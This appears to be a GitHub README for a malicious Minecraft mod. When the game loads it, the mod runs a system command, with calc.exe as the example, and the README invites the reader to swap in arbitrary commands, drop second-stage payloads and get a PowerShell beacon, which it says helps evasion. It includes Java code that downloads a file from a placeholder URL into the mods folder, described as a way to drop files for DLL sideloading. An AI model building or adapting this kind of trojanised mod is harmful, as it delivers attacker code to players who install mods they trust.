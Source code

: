 # A malicious Minecraft mod

This is a Minecraft mod that can be compiled into a .jar file, dropped in the mods/ folder, and loaded into Minecraft.
Once the `onClientSetup` class is called on initialization the mod will execute the command `calc.exe`, popping the calulator app. 
Replace this command to execute arbitrary commands on the system and drop second stage payloads.


### Code
The code responsible for launching commands calls the `Runtime.getRuntime().exec()` function. 
![image](https://github.com/nickswink/mc-payload-mod/assets/57839593/ce3c1902-74aa-4715-833b-aecf5354cb83)

### Execution
As Minecraft initializes the mod the command is executed.
![image](https://github.com/nickswink/mc-payload-mod/assets/57839593/e1dfbc4d-068c-42e3-9e55-a6ed2e1635bf)

### Beacon poc
Executing a powershell paylaod to get a beacon on the remote host. (Seems to help with evasion as well)
![image](https://github.com/nickswink/mc-payload-mod/assets/57839593/1cd888b5-855e-452e-80fa-c7aff1b891c5)

### DOwnloads (dll sideloading)
| Maybe if you want to drop a file without running `Runtime.getRuntime().exec()` which is kinda sketchy. 

```java
import java.io.BufferedInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.net.URLConnection;

public void downloadFile(String urlStr, String savePath) throws IOException {
    URL url = new URL(urlStr);
    URLConnection connection = url.openConnection();
    try (BufferedInputStream inputStream = new BufferedInputStream(connection.getInputStream());
         FileOutputStream fileOutputStream = new FileOutputStream(savePath)) {

        byte[] dataBuffer = new byte[1024];
        int bytesRead;
        while ((bytesRead = inputStream.read(dataBuffer, 0, 1024)) != -1) {
            fileOutputStream.write(dataBuffer, 0, bytesRead);
        }
    }
}

try {
    String fileUrl = "https://example.com/your_file.txt";
    String savePath = "path/to/your_minecraft_mod_folder/your_file.txt";
    downloadFile(fileUrl, savePath);
    System.out.println("File downloaded successfully!");
} catch (IOException e) {
    e.printStackTrace();
    System.out.println("File download failed!");
}

```
